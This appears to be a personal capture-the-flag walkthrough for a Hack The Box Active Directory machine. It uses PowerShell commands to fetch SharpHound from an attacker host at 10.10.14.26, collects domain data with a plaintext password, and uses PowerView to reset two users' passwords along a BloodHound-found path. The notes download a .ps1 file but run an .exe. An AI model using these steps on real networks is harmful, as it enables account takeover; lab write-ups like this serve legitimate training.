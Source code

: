 Get sharphound.ps1 from here https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Collectors/SharpHound.ps1

start a python http server
```
python3 -m http.server
```

download it on the administrator server
```
(New-Object Net.WebClient).DownloadFile('http://10.10.14.26:8000/SharpHound.ps1','C:\Users\olivia\Desktop\SharpHound.ps1')
```
then we run sharphound
```
.\SharpHound.exe -c All --LdapUsername Olivia --LdapPassword ichliebedich --ZipFileName htb.zip
```

then we move the htb.zip folder back to the VM through impacket-smbserver that i set up
load that into bloodhound and see what 

## Bloodhound
make olivia an owned target
Go to cypher -> Queries -> Shortest Path from owned objects
![](../Assets/Screenshot%202025-06-27%20at%204.56.59%20PM.png)
olivia has a generic all to michael which has forcechangepassword to bejamin and bejamin is a member of share moderators 

## Becoming michael
we need to download powerview and then transfer it over to the administrator machine first
In evil-winrm:
```
$SecPassword = ConvertTo-SecureString 'ichliebedich' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('administrator.htb\Olivia', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword -Credential $Cred
```
can use evil-winrm to login as michael and see around if there is a user flag but there is not user flag
## Becoming benjamin
```
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('administrator.htb\Michael', $SecPassword)
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity benjamin -AccountPassword $UserPassword -Credential $Cred
```
so we have changed the password of benjamin to Password123!
